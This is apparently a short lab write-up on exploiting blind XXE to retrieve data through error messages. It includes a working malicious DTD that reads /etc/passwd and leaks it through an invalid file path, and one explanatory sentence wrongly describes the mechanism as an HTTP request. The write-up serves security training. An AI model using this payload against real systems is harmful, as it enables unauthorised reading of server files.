 
*Exploiting Blind XXE To Retrieve Data Via Error Messages* 

![lab4 intro](/docs/assets/images/portswigger/blindxxe/bxxe22.png)

To start this lab off I'm once again going to navigate to the exploit server and upload my own malicious DTD file.  

``` 
<!ENTITY % file SYSTEM "file:///etc/passwd"> 
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>"> 
%eval; 
%exfil; 
```

This will create an entity called `file` that points to the `/etc/passwd` file, then an XML entity named `eval` is defined an dinside that `eval` entity is another called `exifil` which sends an HTTP GET request to a file URL constructed with the `file` entities contents appended as a path component. Then the final 2 lines reference the created entities so that the payload runs. 
